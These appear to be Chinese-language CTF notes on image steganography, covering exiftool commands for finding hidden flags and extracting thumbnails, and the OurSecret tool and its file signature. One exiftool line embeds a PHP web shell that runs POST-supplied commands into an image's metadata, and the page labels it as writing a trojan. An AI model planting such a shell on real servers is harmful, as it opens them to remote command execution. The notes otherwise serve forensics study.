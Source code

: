 ## **图片exif信息隐写**
Windows一般看图片属性即可。
<https://blog.csdn.net/qq_41453285/article/details/101765775>
kali使用
```
exiftool *| grep flag   查看当前目录中文件中含有flag信息的内容
exiftool xx.png   查看xx.png的所有元数据
exiftool poc.jpg -documentname="<?php echo exec(\$_POST['cmd']); ?>" 图片中写木马
exiftool -ThumbnailImage -b misc22.jpg > 1.jpg  导出缩略图，如果有Thumbnail Image，缩略图也可以使用MagicEXIF工具查看。

```












^
## **我们的密码加密OurSecret**
OurSecret.exe
一张图片或文件中，可以通过密码提取一个文件，可以是txt或zip。
一个文件如图片中默尾有多出的16进制9E97BA2A，就是OurSecret特征，记得把无关的结尾数据删除后在解密提取。
![](.topwrite/assets/image_1735301461958.png)